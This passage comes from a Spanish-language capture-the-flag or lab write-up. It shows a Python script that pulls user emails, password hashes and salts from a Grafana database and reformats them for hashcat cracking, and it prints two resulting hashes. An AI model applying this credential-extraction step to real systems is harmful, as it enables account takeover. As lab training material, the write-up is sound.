 - Pero podemos crear un script en **Python3** que haga lo mismo.

```bash
➜  exploits cat gethash.py
#!/usr/bin/env python3

import sqlite3
import base64
import hashlib

# Nos conectamos
conn = sqlite3.connect('grafana.db')
cursor = conn.cursor()

# Filtramos directamente por la data que nos interesa
cursor.execute("SELECT email, password, salt, is_admin FROM user")

# Obtenemos todas las filas
rows = cursor.fetchall()

# Recorremos las filas con un bucle for
for row in rows:
    email, password, salt, is_admin = row

    # Decodifimos la contraseña de hexadecimal
    decoded_hash = bytes.fromhex(password)

    # Codificamos la contraseña y la sal a base64
    hash64 = base64.b64encode(decoded_hash).decode('utf-8')
    salt64 = base64.b64encode(salt.encode('utf-8')).decode('utf-8')

    # Lo guardamos en un archivo hash_file.txt
    with open("hash_file.txt", "a") as hash_file:
        hash_file.write(f"sha256:10000:{salt64}:{hash64}\n")

# cerramos la conexion ala base de datos
conn.close()
➜  exploits
```

- Una vez ejecutado obtenemos los **hashes** .

```bash
➜  exploits cat hash_file.txt
sha256:10000:WU9iU29MajU1Uw==:epGeS76Vz1EE7fNU7i5iNO+sHKH4FCaESiTE32ExMizzcjySFkthcunnP696TCBy+Pg=
sha256:10000:TENCaGR0SldqbA==:3GvszLtX002vSk45HSAV0zUMYN82COnpm1KR5H8+XNOdFWviIHRb48vkk1PjX1O1Hag=
➜  exploits
```

- Ahora buscamos el modo que usaremos en **hashcat** <https://hashcat.net/wiki/doku.php?id=example_hashes> .

<p align="center">
<img src="https://i.imgur.com/LidRLa9.png">
</p>
